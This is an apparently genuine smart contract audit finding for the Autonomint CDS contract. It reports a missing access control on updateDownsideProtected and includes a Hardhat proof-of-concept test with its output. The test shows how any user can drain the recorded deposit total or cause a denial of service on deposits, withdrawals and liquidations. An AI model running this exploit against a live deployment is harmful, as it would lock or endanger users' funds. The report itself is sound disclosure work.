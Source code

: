 Digital Onyx Ferret

High

# [H-5] Lack of access control on `CDS::updateDownsideProtected` function artificially reduces `totalCdsDepositedAmount`

### Summary

The `CDS::updateDownsideProtected` function updates the value of `downsideProtected` that is used inside the `CDS::withdraw` and `CDS::deposit`.

During deposits and withdrawals, the `_updateCurrentTotalCdsDepositedAmount()` function is called which checks if `downsideProtected > 0` before deducting the `downsideProtected` value from `totalCdsDepositedAmount` and from `totalCdsDepositedAmountWithOptionFees`.

```javascript
    function _updateCurrentTotalCdsDepositedAmount() private {
        if (downsideProtected > 0) {
            totalCdsDepositedAmount -= downsideProtected;
            totalCdsDepositedAmountWithOptionFees -= downsideProtected;
            downsideProtected = 0;
        }
    }
```
Since the [function](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L829) has no access controls, anyone can set `downsideProtected ` to an arbitrary value.

```javascript
    //@audit lack of access controls modifiers
    function updateDownsideProtected(uint128 downsideProtectedAmount) external {
        downsideProtected += downsideProtectedAmount;
    }
```

Since the `downsideProtected` value is subtracted from `totalCdsDepositedAmount` and `totalCdsDepositedAmountWithOptionFees ` within the `CDS::_updateCurrentTotalCdsDepositedAmount` function a user can artificially reduce the perceived amount of funds deposited into the `CDS` contract.

This will lead to **ratio miscalculations** in the `Borrowing::_calculateRatio` and `BorrowLib::calculateRatio` functions because these two functions rely on the accuracy of `totalCdsDepositedAmount` to determine borrowing capacities and collateral ratios. An inflated `downsideProtected` will lead to **underestimation of deposits** because the protocol perceives fewer deposits than actual, skewing ratios downward.

This can also cause a permanent DOS of the `CDS::deposit` and `CDS::withdrawal` functions. A user can set `downsideProtected ` to `type(uint128).max` leading to underflow during deposits and withdrawals when `_updateCurrentTotalCdsDepositedAmount()` is called. This will cause all `deposit/withdraw` transactions to revert.

This issue can also lead to unexpected liquidation behaviors because the protocol **underestimates deposits**. Those miscalculations could trigger unexpected liquidations, destabilizing user positions, incorrect interest calculations, or if `downsideProtected` is a very large amount it can also prevent liquidations from happening, because calculations will underflow.


### Root Cause

Lack of access controls on the `CDS::updateDownsideProtected` function.

### Internal pre-conditions

N/A

### External pre-conditions

N/A

### Attack Path

N/A

### Impact

-  Underestimation of deposits because the protocol perceives fewer deposits than actual, skewing ratios downward.

- DOS of `CDS::deposit` and `CDS::withdrawal` functions. A user can set `downsideProtected ` to `type(uint128).max` leading to underflow during deposits and withdrawals when `_updateCurrentTotalCdsDepositedAmount()` is called. This will cause all `deposit/withdraw` transactions to revert.

- Potential for unexpected liquidation behavior

- DOS of the `liquidation` functionality altogether due to underflow during `liquidation` calculations. This will prevent users from being liquidated.

```javascript
//these will be negative at this point and function calls will revert
cds.updateTotalCdsDepositedAmount(cdsAmountToGetFromThisChain);
cds.updateTotalCdsDepositedAmountWithOptionFees(cdsAmountToGetFromThisChain);
cds.updateTotalAvailableLiquidationAmount(cdsAmountToGetFromThisChain);
```

- Potential loss of funds for users either through liquidations or if a user deposited and then another user sets `downsideProtected` to `type(uint128).max` then they are unable to withdraw their funds.

### PoC

Put the following test inside `BorrowingTest.ts` file

```javascript
    it.only("Should artificially decrease `totalCdsDepositedAmount` by inflating `downsideProtected`", async function () {
      const { CDSContractA, TokenA, usdtA, globalVariablesA } = await loadFixture(deployer);

      //mint 20k USDT to user1
      await usdtA.mint(user1.getAddress(), 20000000000);
      await usdtA.connect(user1).approve(CDSContractA.getAddress(), 20000000000);

      const options = Options.newOptions().addExecutorLzReceiveOption(400000, 0).toHex().toString();

      let nativeFee = 0;
      [nativeFee] = await globalVariablesA.quote(1, 0, options, false);

      //deposit 20k USDT into CDS
      await CDSContractA.connect(user1).deposit(20000000000, 0, true, 10000000000, 100000, {
        value: nativeFee.toString(),
      });

      let depositedAmount1 = await CDSContractA.totalCdsDepositedAmount();
      console.log("Deposited amount after first deposits is:", depositedAmount1);

      //mint 20k USDA and deposit into CDS
      await TokenA.mint(user1.getAddress(), 20000000000);
      await TokenA.connect(user1).approve(CDSContractA.getAddress(), 20000000000);

      await CDSContractA.connect(user1).deposit(0, 20000000000, true, 20000000000, 100000, {
        value: nativeFee.toString(),
      });
      expect(await CDSContractA.totalCdsDepositedAmount()).to.be.equal(40000000000);

      let depositedAmount2 = await CDSContractA.totalCdsDepositedAmount();
      console.log("Deposited amount after first 2 legit deposits is:", depositedAmount2);

      //artificially inflate downsideProtected by 50k
      await CDSContractA.connect(user2).updateDownsideProtected(50000000000);

      //mint another 20k USDA and deposit into CDS
      await TokenA.mint(user1.getAddress(), 20000000000);
      await TokenA.connect(user1).approve(CDSContractA.getAddress(), 20000000000);

      await CDSContractA.connect(user1).deposit(0, 20000000000, true, 20000000000, 100000, {
        value: nativeFee.toString(),
      });

      let depositedAmount3 = await CDSContractA.totalCdsDepositedAmount();
      console.log(
        "Deposited amount should've been 60000000000 (60K) after the 3rd deposit, but it's actually:",
        depositedAmount3
      );
    });
```

Test output

```javascript
Deposited amount after first deposits is: 20000000000n
Deposited amount after first 2 legit deposits is: 40000000000n
Deposited amount should've been 60000000000 (60K) after the 3rd deposit, but it's actually: 10000000000n
  ✔ Should artificially decrease `totalCdsDepositedAmount` by inflating `downsideProtected` (32836ms)

  1 passing (33s)
```
`totalCdsDepositedAmount` was artificially reduced by 50K, although users deposited 60K.

### Mitigation

Add access controls to the `updateDownsideProtected` function.